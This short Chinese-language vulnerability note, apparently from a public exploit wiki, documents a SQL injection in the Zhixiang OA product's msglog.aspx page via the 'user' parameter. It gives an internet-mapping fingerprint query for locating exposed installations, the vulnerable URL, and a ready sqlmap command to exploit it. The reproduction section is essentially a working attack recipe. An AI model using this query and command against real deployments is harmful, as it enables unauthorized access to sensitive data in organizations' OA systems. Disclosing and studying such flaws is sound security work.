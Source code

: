 # 致翔OA msglog.aspx SQL注入漏洞

# 致翔OA msglog.aspx SQL注入漏洞

## 漏洞描述

致翔OA msglog.aspx文件存在SQL注入漏洞，攻击者通过漏洞可获取敏感信息

## 漏洞影响

```
致翔OA
```

## 网络测绘

```
app="致翔软件-致翔OA"
```

## 漏洞复现

产品页面

![image-20220520142109952](/images/202205201421236.png)

存在漏洞的文件为 `msglog.aspx`,涉及注入的参数为 user

```
/mainpage/msglog.aspx?user=1
```

SQLMap跑一下

```
sqlmap -u http://127.0.0.1/mainpage/msglog.aspx?user=1 -p user --batch
```

![image-20220520142130999](/images/202205201421211.png)

